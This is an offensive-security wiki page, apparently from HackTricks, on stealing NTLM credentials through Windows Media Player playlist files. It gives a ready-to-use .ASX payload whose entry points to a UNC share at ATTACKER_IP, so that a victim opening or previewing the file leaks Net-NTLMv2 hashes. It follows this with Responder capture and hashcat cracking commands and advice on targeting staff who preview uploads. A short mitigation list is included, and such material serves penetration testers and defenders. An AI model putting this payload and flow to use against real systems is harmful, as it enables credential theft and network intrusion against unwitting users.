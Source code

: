 # Places to steal NTLM creds

{{#include ../../banners/hacktricks-training.md}}

**Check all the great ideas from [https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/) from the download of a microsoft word file online to the ntlm leaks source: https://github.com/soufianetahiri/TeamsNTLMLeak/blob/main/README.md and [https://github.com/p0dalirius/windows-coerced-authentication-methods](https://github.com/p0dalirius/windows-coerced-authentication-methods)**

---

## Windows Media Player playlists (.ASX/.WAX)

If you can get a target to open or preview a Windows Media Player playlist you control, you can leak Net‑NTLMv2 by pointing the entry to a UNC path. WMP will attempt to fetch the referenced media over SMB and will authenticate implicitly.

Example payload:

```xml
<asx version="3.0">
  <title>Leak</title>
  <entry>
    <title></title>
    <ref href="file://ATTACKER_IP\\share\\track.mp3" />
  </entry>
</asx>
```

Collection and cracking flow:

```bash
# Capture the authentication
sudo Responder -I <iface>

# Crack the captured NetNTLMv2
hashcat hashes.txt /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
```

Notes
- Works with .asx and .wax. Generate files with ntlm_theft for convenience.
- Effective when apps/services automatically open uploads for preview (e.g., HR reviewing candidate videos).
- Mitigations: Disable NTLM/SMB egress, don’t auto-open untrusted media, and harden WMP associations.

## References
- [HTB: Media — WMP NTLM leak → NTFS junction to webroot RCE → FullPowers + GodPotato to SYSTEM](https://0xdf.gitlab.io/2025/09/04/htb-media.html)
- [Morphisec – 5 NTLM vulnerabilities: Unpatched privilege escalation threats in Microsoft](https://www.morphisec.com/blog/5-ntlm-vulnerabilities-unpatched-privilege-escalation-threats-in-microsoft/)
- [ntlm_theft – NTLM coercion file generator](https://github.com/Greenwolf/ntlm_theft)
- [Responder](https://github.com/lgandx/Responder)

{{#include ../../banners/hacktricks-training.md}}